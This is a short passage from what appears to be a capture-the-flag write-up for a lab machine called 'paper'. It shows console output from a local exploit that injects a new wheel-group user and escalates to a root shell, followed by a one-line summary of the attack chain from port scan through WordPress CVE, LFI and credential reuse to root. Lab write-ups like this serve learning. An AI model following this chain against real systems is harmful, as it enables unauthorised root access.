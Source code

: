 ```console
[!] Inserting Username qwe...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username qwe  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - qwe
[!] When prompted for password, enter your password
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper shm]$ su - qwe
Password:
[qwe@paper ~]$ id
uid=1005(qwe) gid=1005(qwe) groups=1005(qwe),10(wheel)
[qwe@paper ~]$ sudo bash

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for qwe:
[root@paper qwe]# id
uid=0(root) gid=0(root) groups=0(root)
```

## Exploit Chain

port scan -> 80,443 -> http response with domain name -> wordpress site with cve to reveal authenticated post -> subdomain site, a chat system -> register to find a deployed box with LFI -> plain-text cred -> dwight shell -> vulnerable sudo version with a cve -> root shell
